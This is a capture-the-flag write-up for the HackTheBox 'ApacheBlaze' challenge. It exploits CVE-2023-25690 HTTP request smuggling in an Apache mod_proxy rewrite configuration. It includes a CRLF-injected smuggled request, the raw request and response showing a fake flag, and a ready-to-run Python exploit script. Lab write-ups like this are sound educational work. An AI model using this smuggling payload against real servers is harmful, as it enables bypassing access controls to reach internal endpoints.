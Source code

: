 #  ApacheBlaze HTB Challenge 

Looking at the configuration files we can see that "**httpd.conf**" has a rewrite rule:

```sh
RewriteRule "^/api/games/(.*)" "http://127.0.0.1:8080/?game=$1" [P]
ProxyPassReverse "/" "http://127.0.0.1:8080:/api/games/"
```
From the Dockerfile we can get the Apache version 2.4.5 that confirm the vulnerabilities.

## CVE-2023-25690

### References
- https://httpd.apache.org/security/vulnerabilities_24.html
- https://github.com/dhmosfunk/CVE-2023-25690-POC

The server is vulnerable to **HTTP SMUGGLING ATTACK** because of the mod_proxy configuration.
The github link has a very good POC that work just perfect!

We need to reach /api/games/click_topia in order to get the Flag but we can only reach that endpoint from **dev.apacheblaze.local"**.

If we take a look at the code we can see that it's asking for the header "X-Forwarded-Host".
```python
    elif game == 'click_topia':
        if request.headers.get('X-Forwarded-Host') == 'dev.apacheblaze.local':
            return jsonify({
                'message': f'{app.config["FLAG"]}'
            }), 200
        else:
            return jsonify({
                'message': 'This game is currently available only from dev.apacheblaze.local.'
            }), 200
```

Now, this got me to lose time because i was trying the Smuggling Attack with the header and it did not work. But if we make the request with the Host: dev.apacheblaze.local it works!

## Exploit

We need to craft our request.

This is the final Smuggled HTTP request
```
api/games/click_topia%20HTTP/1.1%0d%0aHost:%20dev.apacheblaze.local%0d%0a%0d%0aGET%20/SMUGGLED HTTP/1.1
```

The server Split the request into:
```
api/games/click_topia HTTP/1.1
Host: dev.apacheblaze.local

GET /SMUGGLED HTTP/1.1
```
#### Request
```http
GET /api/games/click_topia%20HTTP/1.1%0d%0aHost:%20dev.apacheblaze.local%0d%0a%0d%0aGET%20/SMUGGLED HTTP/1.1
Host: 127.0.0.1:1337
...
```
#### Response
```http
HTTP/1.1 200 OK
Date: Sat, 04 Nov 2023 11:50:01 GMT
Server: Apache
Content-Type: application/json
Content-Length: 41

{"message":"HTB{f4k3_fl4g_f0r_t3st1ng}"}
```


#### Python script
```python
import requests
import sys

if len(sys.argv) != 2:
    print("Usage: python3 script.py <URL>")
    sys.exit(1)

url = sys.argv[1]
if not url.startswith('http://') and not url.startswith('https://'):
    url = 'http://' + url
try:
    # Componi l'URL completo con la richiesta GET specificata.
    full_url = f'{url}/api/games/click_topia%20HTTP/1.1%0d%0aHost:%20dev.apacheblaze.local%0d%0a%0d%0aGET%20/SMUGGLED HTTP/1.1'

    # Invia la richiesta GET all'URL specificato.
    response = requests.get(full_url)

    if response.status_code == 200:
    	print(" ")
    	print("############ GOT THE FLAG ############")
    	print(" ")
    	print(response.text)
    else:
        print(f'NOPE: {response.status_code}')
except requests.exceptions.RequestException as e:
    print(f'Errore nella richiesta: {e}')

```

